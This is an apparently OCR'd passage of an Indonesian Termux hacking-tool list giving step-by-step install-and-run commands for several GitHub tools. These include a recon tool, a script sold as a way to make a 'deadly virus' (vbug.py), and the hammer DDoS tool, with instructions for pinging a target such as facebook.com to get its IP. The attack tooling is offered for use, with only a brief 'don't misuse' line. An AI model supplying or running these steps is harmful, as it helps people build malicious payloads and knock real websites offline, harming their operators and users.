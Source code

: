 $ pkg update && upgrade 
$ pkg install python2 
$ pkg install git 
$ git clone https://github.com/Gameye98/Lazymux 
$ cd Lazymux 
$ chmod +x lazymux.py 
$ python2 lazymux.py

54. || INSTALL TOOLS DOIJOBU ||

" fungsinya nanti liat sendiri lah di dalem tools nya "

$ apt upgrade && apt update 
$ apt install php 
$ apt install git 
$ git clone https://github.com/alintamvanz/diejoubu 
$ cd diejoubu 
$ cd v1.2 
$ php diejoubu.php

55. || HACKER RECONDOG ||

$ apt update
$ apt install python python2
$ apt install git
$ git clone https://github.com/UltimateHackers/ReconDog
$ cd ReconDog
$ chmod +x dog.py
$ python2 dog.py

56. || CARA BIKIN VIRUS MEMATIKAN DI TERMUX ||

$ pkg install git wget python2
$ git clone https://github.com/storiku/virus
$ cd virus
$ python2 vbug.py
" cara save virus "
$ cd virus && ls
$ mv -f MasAyip.txt /sdcard
NOTE : JANGAN SALAH GUNAKAN !!

57. || DDOS ATTACK WEBSITE ||

$ apt update && apt upgrade
$ apt install python
$ apt install git
$ git clone https://github.com/cyweb/hammer
$ ls
$ cd hammer
$ ls
$ python hammer.py

buka new seasson

$ ping ( target website )
contoh : $ ping facebook.com
CTRL + C
salin IP
